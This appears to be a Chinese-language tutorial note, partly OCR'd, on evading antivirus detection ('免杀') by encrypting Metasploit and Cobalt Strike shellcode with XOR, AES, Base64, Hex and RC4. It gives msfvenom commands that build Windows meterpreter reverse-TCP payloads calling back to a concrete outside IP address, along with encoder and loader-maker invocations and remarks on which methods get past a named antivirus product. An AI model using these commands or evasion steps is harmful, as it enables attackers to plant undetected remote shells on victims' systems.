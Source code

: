 ## **shellcode特征和加密**
MSF的客户端源码是开源的，可以找到地址reversetcp.rb，是ruby语言。
查看ruby语言源码比对生成的shellcode。
可以看到shellcode本质是16进制数字，有特征，可以看到外链的ip和端口，可以直接修改shellcode中16进制。

^
所以通过加密编码后去除shellcode特征，实现免杀。
最好生成64位可执行文件。

加密不一定只加密shellcode，整个代码都可以加密，还可以整个代码加密后，用反序列化解密执行。

PS：这种方式对某60效果不好。
PS：其实shellcode使用静态混淆SGN后，无需再做加密。



## **xor加密**
```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai 
-i 6 -b "\x00" lhost=47.94.236.117 Iport=3333 -f raw >shellcode.raw

CS-有效载荷-Payload生成器-raw > payload.bin
```
python2 shellcode encoder.py -cpp -cs -py payload.bin xiaodi xor

生成c++，c#，py的代码，其中shellcode被加密过，运行生成可执行文件即可。


可以自己写shellcode的xor加密方式，对应的解密代码，再加载器编译成可执行文件实现免杀。



^
## **Aes加密**
每次密钥不同，加密后也不同。

^
## **Base64加密**
可以和其他方式组合。

^
## **Hex加密**
http://github.com/ByPassAVTeam/ShellcodeLoader
LoaderMaker.exe download.dat(hex 数据) xiaodi.exe(生成文件名)



^
## **RC4加密（好）**
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=47.94.236.117
lport=6688 -f c
```
算法参考
https://blog.csdn.net/weixin_45590789/article/details/105536623

